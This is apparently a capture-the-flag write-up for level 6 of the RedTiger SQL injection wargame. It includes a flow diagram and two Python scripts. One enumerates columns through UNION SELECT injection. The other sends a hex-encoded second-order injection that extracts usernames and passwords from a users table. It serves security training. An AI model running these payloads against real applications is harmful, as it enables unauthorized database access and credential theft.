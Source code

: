 ================================================================================================================
[redtiger] level6
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="level6.php?user=0 union select %s from level6_users--",arrowhead="normal"];
        step3 -> step2[label="column length",arrowhead="normal"];
        step4 -> step5[label="level6.php?user=0 union select 1,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,3,4,5 from level6_users-- ",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

- Target: Get the first user in table level6_users with status 1

.. code-block:: html

    <a href="?user=1">Click me</a>
    <table style="border-collapse:collapse; border:1px solid black;">
    <tr>
        <td>Username: </td>
        <td>deddlef</td>
    </tr>
    <tr>
        <td>Email: </td>
        <td>dumbi@damibi.de</td>
    </tr>
    </table>

    <form method="post">
        Username: <input type="text" name="user">
        Password: <input type="text" name="password">
    <input type="submit" name="login" value="Login">
    </form>


|

Column Length
================================================================================================================

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level6.php"
    cookies = {
        "level6login":"my_cat_says_meow_meowmeow"
    }

    n = 0
    bef_ret = ''
    for l in range(20):
        params = {
            "user": "0 union select %s from level6_users-- " % str(n)
        }
        print "0 union select %s from level6_users-- " % str(n)
        n = str(n) + "," + str(l+1)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        if bef_ret!=r.content and bef_ret!='':
            print r.content

        bef_ret = r.content


|

Data Extract
================================================================================================================


.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level6.php"
    cookies = {
        "level6login":"my_cat_says_meow_meowmeow"
    }

    # 0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20
    # ' union select 1,username,3,password,5 from level6_users where id=3 -- 
    params = {
        "user": "0 union select 1,0x2720756e696f6e2073656c65637420312c757365726e616d652c332c70617373776f72642c352066726f6d206c6576656c365f75736572732077686572652069643d33202d2d20,3,4,5 from level6_users-- "
    }

    r = requests.post(url, cookies=cookies, params=params, verify=False)

    print r.content

